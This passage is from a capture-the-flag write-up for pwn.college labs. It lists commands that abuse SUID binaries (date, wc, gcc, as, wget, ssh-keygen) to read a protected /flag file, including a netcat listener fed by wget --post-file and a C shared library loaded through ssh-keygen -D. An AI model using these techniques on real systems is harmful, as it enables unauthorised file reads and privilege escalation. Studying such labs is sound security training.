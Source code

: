 ```
45. date
```
date -f /flag
```
46. dmesg
```
dmesg -F /flag
```
47. wc
```
wc --files0-from=/flag
```
48. gcc
```
gcc -x c -E /flag
OR
gcc @/flag
```
49. as
```
as -Z @/flag
```
50. wget
```
wget -i /flag
pwn.college{flag} // Wrong solution, the caps are gotten rid of through verbose error messages)
nc -lp 8888 & wget --post-file=/flag http://127.0.0.1:8888 // Best solution
pwn.college{correctflag}
```
51. ssh-keygen 

Based on the video (Connor's Opening Hours)[^ssh-keygen-source1], I was guided to the solution for lab 51.To discover the option used , we first go through the manual for ssh-keygen ```man ssh-keygen```. With trial and discovery, it is discovered that we cannot run the /flag file directly through the command. However, we could create a program in C (compiled by gcc) that reads the /flag file to trick the command to call the function that appears in the error message. 

```c
#include <stdio.h>
#include <stdlib.h>
int main(){
    printf("Hello World ");
    return 0;
}
// we can also use __attribute__((constructor)) here instead of naming the function C_GetFunctionList to run the function automtically without being called.
int C_GetFunctionList(){
  sendfile(1, open("/flag", 0), 0, 4096);
}
```
Then after, compile the code as a shared library with gcc and use the compiled file on ssh-keygen.
```
gcc -shared 51.c
ssh-keygen -D ./a.out
```

## References
[^source1]: <https://securiumsolutions.com/privilege-escalation-with-suid-in-linux/>
[^ssh-keygen-source1]: Lab 51 Solution : <https://www.youtube.com/watch?v=14mIjpOXnrM&t=2878s>